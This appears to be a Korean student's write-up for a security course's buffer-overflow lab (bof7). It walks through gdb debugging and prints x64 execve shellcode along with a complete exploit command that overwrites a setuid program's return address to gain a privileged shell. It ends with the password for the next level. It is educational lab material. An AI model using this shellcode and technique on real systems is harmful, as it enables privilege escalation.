

# GBC_security HW7  
## bof7 write-up  

### write-up에 앞서, 병민군의 도움이 없었다면 못풀었을 문제이므로, HDMI연결해서 직접 우리들에게 지식을 나눠주신 빛병민님에게 감사드리며 시작하겠습니다  
---

쉘코드란?  
- 쉘을 실행시킬 수 있는 코드.  
- 어셈블리어 코드를 문자열로 삽입할 수 있도록 기계어로 변환하여 묶은 것.  
- ```setuid``` 가 설정된 프로그램에서 ```return address``` 를 조작할 수 있을 때 쉘을 실행시킬 수 있는 어셈블리 코드를 문자열로 삽입하고 삽입된 문자열의 주소값으로 ```return address``` 를 조작한다.  
[출처:찬솔님의 강의노트?](https://github.com/ccss17/security-tutorial/tree/master/07-Exploit2)  

오늘 실험에 쓸 쉘코드는 [링크](http://shell-storm.org/shellcode/files/shellcode-806.php)에서 만들어진 리눅스 x64 아키텍처용 쉘 코드이다.  

우리가 직접 쉘 코드를 만들지 않고 ```\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05```를 쓰겠다.  

시작해보자.  

일단, gets와 strcpy의 취약점은 input을 버퍼에 저장할 때 길이 검증 없이 데이터를 스택에 쌓는다.  
이러한 부분을 이용할 것인데, 이번에는 함수의 return address를 약간 조작(?)하여 쉘코드를 실행시킬 것이다.  


  
소스코드이다.  

인자로 argv[1]를 함수에 전달.  strcpy구문도 보인다.  

buf의 주솟값과 vuln함수의 return address의 차이를 구해, 그 길이만큼 의미없는 값(1바이트의 문자)을 주고 그 후에 쉘 코드를 주면 쉘이 실행될것이다.  

해보자.  

자 vuln함수로 들어가면 바로 rsp에 return address가 들어간다.  이를 기억하자. *0x7fffffffe488*  
  

계속 ni로 한줄씩 실행하다보면, 그림과 같이 setruid의 함수를 호출한 후, test를 하고 je로 점프를 한다.  
그 후는 perror가 call되고, exit이 call된다.  
에러에 잡히면 프로그램에 exit된다.  
우리는 에러를 피해야한다!  

우리는 set &eflags |= (1 << 6)라는 명령을 통해, ZF를 true로 바꿔준다.  

  

그렇게 두개의 if문을 넘어 strcpy가 call 되는 부분까지 간다.  
  

rdi에 rsi를 cpy한다.  
여기서 rdi가 buf다. rsi는 argv[1].  

그렇담 우린 buf의 address인 p $rdi를 기억하자.  
*0x7fffffffe400*이다.  

둘의 차이 = 거리 =  136  
  

자 136만큼 'x'를 주고 shell code를 주면 될것이다!  

./bof7 `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'+'x'*109+'\x88\xe4\xff\xff\xff\x7f'"` 이렇게 명령어를 해주면 136개가 채워지고, 그 후, return address를 buf의 address로 덮어버리면, 프로그램은 쉘 코드가 있는 주소로 이동하게 되고, 권한이 상승된 쉘을 얻을 수 있다.  

하지만, 여기서 에러가 뜬다.  
  

소스코드에서 buf의 포인터 주소를 print해주는 부분이 있다.  
내가 넣은 주소는 '\x88\xe4\xff\xff\xff\x7f'인데, print되는 부분은 '\xb0\xe3\xff\xff\xff\x7f'이다.  

그래서 명령을 바꿨다.  
그랬더니 됐다.~gdb에서 찾은 값이랑 직접 실행하는 것과 값이 다르다고 생각했음.  
  

> bof8 passwd = <u>04ccd53d</u>  